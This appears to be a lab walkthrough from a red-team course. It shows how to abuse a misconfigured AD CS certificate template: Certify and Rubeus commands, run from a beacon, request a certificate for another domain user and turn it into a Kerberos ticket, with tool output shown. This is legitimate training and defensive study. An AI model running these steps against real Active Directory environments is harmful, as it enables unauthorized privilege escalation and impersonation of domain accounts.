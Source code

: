 # Misconfigured certificate Templates



AD CS certificate templates are provided by Microsoft as a starting point for distributing certificates.  They are designed to be duplicated and configured for specific needs.  Misconfigurations within these templates can be abused for privilege escalation.

As `iyates` on **WKSTN-3**, use the [Certify](https://github.com/GhostPack/Certify) tool to find any vulnerable templates:

```
beacon> getuid
[*] You are CYBER\iyates

beacon> execute-assembly C:\Tools\Certify\Certify\bin\Release\Certify.exe find /vulnerable
```

![.gitbook/assets/1663788081.png](http://res.cloudinary.com/dr4gsg09f/image/upload/v1663788081/q22phgtich32pfa30ban.png)

Let's go through the key parts of this output.

1. The name of the Certificate Authority is **dc-1.cyberbotic.io\ca-1**.
2. The template is called **VulnerableUserTemplate**.
3. **ENROLLEE\_SUPPLIES\_SUBJECT** allows the certificate requestor to provide a SAN (subject alternative name).
4. The certificate usage has **Client Authentication** set.
5. Domain Users have enrolment rights, so any domain user may request a certificate from this template

&#x20; If a principal you control had WriteOwner, WriteDacl or WriteProperty, then this could also be abused.

This configuration allows any domain user to request a certificate for any other domain user (including a domain admin), and use it to authenticate to the domain.  Request a certificate for **nglover**.

```
beacon> execute-assembly C:\Tools\Certify\Certify\bin\Release\Certify.exe request /ca:dc-1.cyberbotic.io\ca-1 /template:VulnerableUserTemplate /altname:nglover

[*] Action: Request a Certificates

[*] Current user context    : CYBER\iyates
[*] No subject name specified, using current context as subject.

[*] Template                : VulnerableUserTemplate
[*] Subject                 : CN=Isabel Yates, CN=Users, DC=cyberbotic, DC=io
[*] AltName                 : nglover

[*] Certificate Authority   : dc-1.cyberbotic.io\ca-1

[*] CA Response             : The certificate had been issued.
[*] Request ID              : 4

[*] cert.pem         :

-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEA7+QJhT7SgrP2SLWI7JqilriLBFjGRgob7sK6Gt8/EN4ODCqA
[...snip...]
EZCgtNFHJpynmPVNEcocncFPtV1hskXIElcwer/EdIROOW+qZhan
-----END RSA PRIVATE KEY-----
-----BEGIN CERTIFICATE-----
MIIGKzCCBROgAwIBAgITIQAAAAJ1qRjA3m3TOAAAAAAAAjANBgkqhkiG9w0BAQsF
[...snip...]
Xm58FnNpAvwXQi1Vu+xIdtpRSGsnl6T6/TYwJlhKqMEU9mRfgaWXgLS+HdS++aw=
-----END CERTIFICATE-----

[*] Convert with: openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx

Certify completed in 00:00:16.3844085
```

Copy the whole certificate (including the private key) and save it to `cert.pem` on the Kali VM.  Then use the `openssl` command to convert it into pfx format.  You may enter a password (recommended) or leave it blank.

```
root@kali:~# openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
Enter Export Password:
Verifying - Enter Export Password:
```

Convert `cert.pfx` into a base64 encoded string:  `cat cert.pfx | base64 -w 0` and use `Rubeus asktgt` to request a TGT using this certificate.

```
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Debug\Rubeus.exe asktgt /user:nglover /certificate:MIIM5wIBAz[...snip...]dPAgIIAA== /password:password /aes256 /nowrap

[*] Action: Ask TGT

[*] Using PKINIT with etype aes256_cts_hmac_sha1 and subject: CN=Isabel Yates, CN=Users, DC=cyberbotic, DC=io 
[*] Building AS-REQ (w/ PKINIT preauth) for: 'cyberbotic.io\nglover'
[+] TGT request successful!
[*] base64(ticket.kirbi):

      doIGNjCCB[...snip...]pYy5pbw==

  ServiceName              :  krbtgt/cyberbotic.io
  ServiceRealm             :  CYBERBOTIC.IO
  UserName                 :  nglover
  UserRealm                :  CYBERBOTIC.IO
  StartTime                :  1/18/2022 4:38:26 PM
  EndTime                  :  1/19/2022 2:38:26 AM
  RenewTill                :  1/25/2022 4:38:26 PM
  Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType                  :  aes256_cts_hmac_sha1
  Base64(key)              :  unJ966veiMXllOu4n88hvAcX/6j71To9JJU5Ec48Pds=
  ASREP (key)              :  6F8361B5177CCC416E67A297C9D61AC975DEAA9E0505DE86657F16EAE9AD8F72
```
